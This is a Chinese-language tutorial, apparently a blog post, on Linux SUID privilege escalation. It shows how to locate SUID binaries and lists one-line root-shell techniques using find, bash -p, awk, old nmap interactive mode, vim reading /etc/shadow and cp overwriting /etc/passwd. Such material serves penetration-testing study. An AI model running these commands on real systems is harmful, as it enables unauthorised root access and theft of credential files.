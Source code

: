 SUID是一种特殊的文件属性，它允许用户执行的文件以该文件的拥有者的身份运行，如果某些特殊命令设置了SUID，那么有可能被提权。
设置SUID
Default
文件有s属性说明支持SUID，可以使用ls操作查看
 
设置SUID
chmod u+s /usr/bin/find
取消SUID
chmod u-s /usr/bin/find
查找
Default
使用命令查找正在系统上运行的所有SUID可执行文件，不同系统命令不一样，都尝试一下
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
 
 
正常情况常用的就以下几个
nmap、vim、find、bash、more、less、nano、cp、awk

find提权

利用上面命令查找，如果发现有find
Default
随便新建一个文件，或利用已有文件
touch abc
 
以SUID即root权限执行命令
find abc -exec whomai \;
/usr/bin/find abc -exec whoami \;

Bash提权
Default
使用-p参数打开一个root权限的shell
bash -p

less、more提权
Default
less命令也是个查看文件内容的，也可以使用该命令进入shell
 
more也是相同原理

cp提权
Default
使用该命令尝试覆盖/etc/passwd
cp ./123 /etc/passwd

awk提权
Default
使用awk命令进入shell
awk 'BEGIN {system("/bin/bash")}'

nmap提权
Default
适用2.02到5.21版本
早版本nmap是带有交互模式的，原理就是用交互模式执行shell
 
进入交互模式
nmap --interactive
 
提权
nmap> !sh

vim提权
Default
vim编辑器以SUID方式运行，则继承root用户权限
vim.tiny  /etc/shadow
 
vim命令
:set shell = '/bin/sh'
:shell

其他
Default
想学习其他命令是否可以，可以到https://gtfobins.github.io/网站搜索